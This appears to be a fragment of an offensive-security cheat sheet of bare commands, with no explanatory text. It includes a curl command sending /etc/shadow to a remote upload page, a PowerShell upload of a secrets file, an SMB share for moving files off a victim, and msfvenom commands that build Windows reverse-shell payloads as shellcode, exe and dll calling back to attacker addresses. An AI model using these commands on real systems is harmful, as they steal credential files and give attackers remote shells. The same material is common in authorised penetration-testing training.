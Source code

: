```jsx
http://127.0.0.1/upload.html.
```

```jsx
curl --form "uploadedfile=@/etc/shadow" http://192.168.45.3/upload.php
```

```jsx
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.48.3/uploadWindows.php', '.\Secrets.jpg')
```

### Upload via SMB

```jsx
impacket-smbserver uploads . -smb2support  -username kali -password kali
```

```jsx
net use m: \\192.168.49.136\uploads /user:kali kali
```

```jsx
copy test.txt m:\
```

```jsx
ls m:\
```

# msfvenom

## exploit fix

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.203 LPORT=443 EXITFUNC=thread -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" --var-name shellcode
```

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP> LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

## exe/dll

```jsx
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f exe > shell.exe
```

```jsx
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f dll > shell.dll
```

### elf
